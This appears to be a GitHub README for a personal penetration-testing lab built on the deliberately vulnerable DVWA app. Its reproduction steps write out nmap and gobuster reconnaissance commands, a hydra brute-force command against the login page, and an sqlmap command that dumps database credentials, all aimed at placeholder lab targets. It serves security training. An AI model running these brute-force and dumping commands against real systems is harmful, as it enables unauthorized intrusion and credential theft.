 DVWA Penetration Testing Lab

A hands-on penetration testing project built to simulate a real-world attack/defense environment using Damn Vulnerable Web Application (DVWA).
Configured and executed on a controlled lab network to practice ethical hacking techniques and demonstrate practical cybersecurity skills.


🎯 Objective


	•	Build a contained penetration testing lab to practice ethical hacking techniques.
	•	Simulate a full attack lifecycle from reconnaissance to exploitation and  post-exploitation.
	•	Demonstrate proficiency with industry-standard tools and document results professionally

🔧 Features
	•	Reconnaissance
	•	Nmap scan for open ports and service enumeration
	•	Gobuster directory brute-forcing
	•	Exploitation
	•	Hydra brute-force attack on DVWA login
	•	Manual and automated SQL Injection (SQLMap)
	•	Post-Exploitation
	•	Extracting DVWA database user credentials
	•	Saving and documenting exploitation results
	•	Documentation
	•	Sanitized DVWA configuration file
	•	Step-by-step attack methodology
	•	Screenshots for every major phase

----

📂 Repository Structure

dvwa-penetration-testing-lab
├── attack-scripts       # Output logs from tools
│   ├── gobuster_scan.txt
│   ├── hydra_bruteforce.txt
│   ├── nmap_scan.txt
│   └── sqlmap_dump.txt
├── configs              # Sanitized config files
│   └── dvwa-config.sample.php
├── docs                 # Attack methodology & notes
│   └── attack-steps.md
├── screenshots          # Evidence (IPs blurred)
└── README.md

----
🧪 How to Reproduce

1.	Set up DVWA
	•	Deploy DVWA on Parrot/Kali or any Debian-based VM
	•	Configure database credentials in dvwa-config.php

2.	Recon

nmap -sV <target-ip> -oN attack-scripts/nmap_scan.txt
gobuster dir -u http://<target-ip>/ -w /path/to/wordlist -o attack-scripts/gobuster_scan.txt

---

3. Brute Force

hydra -l admin -P /path/to/wordlist http://<target-ip>/dvwa/login.php -V -o attack-scripts/hydra_bruteforce.txt

---

4. SQL Injection

sqlmap -u "http://<target-ip>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=<session-id>; security=low" \
  --batch --level=5 --risk=3 --dump -o attack-scripts/sqlmap_dump.txt
---

5. Evidence Collection

	•	Save all tool outputs in attack-scripts/.
	•	Capture relevant screenshots with IPs sanitized.
	•	Write up findings in docs/attack-steps.md.

---
📌 Use Case

This project simulates real-world penetration testing methodology for learning and portfolio building.
It covers all key phases — Reconnaissance, Exploitation, and Post-Exploitation — in a safe, legal lab.

---

🖥️ Requirements

	•	DVWA installed on a Debian-based environment
	•	Kali/Parrot OS with:
	•	Nmap
	•	Gobuster
	•	Hydra
	•	SQLMap

---

📄 License

MIT License – free to use, share, and modify with attribution.

---

👤 Author

Amir Nejad
https://www.linkedin.com/in/amir-nejad98 * https://github.com/Amirnejad35



